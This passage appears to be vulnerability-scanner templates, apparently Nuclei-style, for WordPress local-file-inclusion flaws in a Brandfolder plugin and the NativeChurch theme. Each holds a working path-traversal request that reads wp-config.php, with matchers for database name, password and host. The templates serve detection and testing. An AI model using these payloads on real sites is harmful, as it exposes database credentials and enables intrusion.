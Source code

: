 - Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/brandfolder/callback.php?wp_abspath=../../../wp-config.php%00

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress NativeChurch Theme - Local File Inclusion

## Description

- WordPress NativeChurch Theme is vulnerable to local file inclusion in the download.php file.

- severity - high
- tags - wp-theme,lfi,wp,packetstorm,wpscan,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/NativeChurch/download/download.php?file=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
  3. DB_HOST
  4. The base configurations of the WordPress
- condition - and

---

